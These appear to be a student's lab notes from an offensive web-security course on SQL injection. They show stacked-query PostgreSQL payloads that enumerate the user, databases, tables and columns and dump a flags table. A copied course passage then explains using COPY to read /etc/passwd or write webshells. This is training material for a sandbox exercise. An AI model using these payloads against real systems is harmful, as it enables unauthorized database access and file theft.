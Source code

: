 2. `OS{stackUpThoseQueries}` 
![[Pasted image 20240821220135.png]]
finding `current user` in `POSTGRESQL`
```sql
;select current_user;--+-
```
![[Pasted image 20240821214631.png]]
finding `current database` in `POSTGRESQL`
```sql
;select datname from pg_database;--+-
```
![[Pasted image 20240821215043.png]]
Grabbing the `information_schema.tables` from the `exercise` database that is `public` in `POSTGRESQL`
```sql
;select table_name from exercise.information_schema.tables where table_schema = 'public';
```
![[Pasted image 20240821215426.png]]
selecting the `column_name` & `data_type` in the `exercise` database from the `flags` table in `POSTGRESQL` to get the `flag` name`
```sql
;select column_name, data_type from exercise.information_schema.columns where table_name = 'flags';
```
![[Pasted image 20240821215814.png]]
pulling the `flag` from the `exercise` public database from the `flags` table
```sql
;select flag from exercise.public.flags;
```
![[Pasted image 20240821220104.png]]

-----------
#### 8.3.4 Reading and Writing Files

Some database software include functions that can read files from, or write files to, the underlying server. We can use these functions to exfiltrate data from the server or write files, such as _webshells_,[1](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/stacked-queries-31046#fn-local_id_230-1) which we can use for additional attacks.

PostgreSQL can read and write local files using the _COPY_[2](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/stacked-queries-31046#fn-local_id_230-2) keyword. Specifically, we can use _COPY FROM_ to insert data into a table from a file or _COPY TO_ to copy data to a file from a table.

In order for COPY_TO to succeed, the user that owns the PostgreSQL server process must have access to the file being read or have write permissions to the directory where the file will be created.

We can practice this in the sandbox application at `http://sql-sandbox/sqlconsole`. We will select "PostgreSQL" as the Database, and enter a payload, which takes advantage of stacked queries, in the "Query" field (shown in Listing 16) below.

The first line of the payload will create a new table named _tmp_ with one column named "data". The second line of the payload will copy the contents of /etc/passwd into the _tmp_ table. The last line selects all rows and columns from _tmp_.

